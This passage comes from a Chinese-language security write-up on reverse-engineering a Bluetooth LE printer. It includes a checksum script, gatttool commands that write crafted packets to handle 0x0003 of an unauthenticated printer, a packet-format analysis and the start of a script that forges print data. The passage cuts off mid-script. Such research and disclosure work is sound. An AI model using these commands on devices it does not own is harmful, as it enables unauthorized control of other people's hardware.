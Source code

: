 ```
checknum&amp;=0xff

result=Header+data+hex(checknum)[2:]

print (result)

&gt;&gt; aa0500031301001e1c
```

这个python脚本可以计算出数据的校验码

```
gatttool -b 00:15:83:C3:B9:5F -I

[00:15:83:C3:B9:5F][LE]&gt; connect

[00:15:83:C3:B9:5F][LE]&gt; char-write-req 0x0003 aa0500031301001e1c
```

我们修改数据内容后就可以通过gatttool工具吧数据写入handle: 0x0003, uuid: 0000ff02 就可以控制这个打印机了的功能了，打印机并没有对蓝牙链接上的客户端进行任何的身份校验。

分析打印纸条数据

[![](https://p1.ssl.qhimg.com/t0159d95a42f5e5de98.png)](https://p1.ssl.qhimg.com/t0159d95a42f5e5de98.png)

然后我们来分析打印纸条的数据内容，首先会吧系统时间作为第一包也就是第一个数据包发给打印机，我们输入的文字（”Unicorn team“）并不是以十六进制数据内容进行打印的，而是先吧文字和图片进行编码，可以从图中发现文字和时间文字进行对比不太清晰（转码的损耗），然后在吧转化后的数据分成多个数据包写入handle: 0x0003, uuid: 0000ff02 中进行打印。

[![](https://p5.ssl.qhimg.com/t01bb434bd72258a039.png)](https://p5.ssl.qhimg.com/t01bb434bd72258a039.png)

我们以第一个数据包内容进行分析吧，以为其他都是将输入的文字（”Unicorn team“）进行重新的编码后的数据包，没有多大的内容数据。

aa 01 00 01 54 aa 10 00 04 0b 02 00 05 00 0c 02 00 01 00 0a 02 00 29 00 ec aa 32 00 04 0b 02 00 05 00 0c 02 00 02 00 0d 01 00 00 10 01 00 00 11 01 00 00 12 01 00 00 07 14 00 32 30 31 38 2d 30 38 2d 32 39 20 31 35 3a 35 37 3a 30 36 0a d1 aa 10 00 04 0b 02 00 05 00 0c 02 00 03 00 0a 02 00 2a 00 e9 aa 7a 07 04 0b 02 00 05 00 0c 02 00 04 00 08 6c 07 42 4d 6e 09 00 00 00 00 00 00 3e 00 00 00 28 00 00 00 80 01 00 00 31 00 00 00 01 00 01 00 00 00 00 00 30 09 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ff ff ff 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

## 纸条时间分析

[![](https://p3.ssl.qhimg.com/t0191a80ff86e475156.png)](https://p3.ssl.qhimg.com/t0191a80ff86e475156.png)

[![](https://p1.ssl.qhimg.com/t0166c27d2096585847.png)](https://p1.ssl.qhimg.com/t0166c27d2096585847.png)

截取第一个数据包中的打印时间的这一部分数据内容即可，将我们要打印机的文本转成ascii编码的十六进制数据，然后在算出校验码

伪造纸条数据

```
import binascii

text='Unicorn Team Print'

data='00040b020005000c020002000d010000100100001101000012010000071400'+str(binascii.b2a_hex(text.encode()))[2:-1]+'0a'

datalen=int(len(data))+2

data=hex(int(datalen/2-2))[2:]+data

x=0
```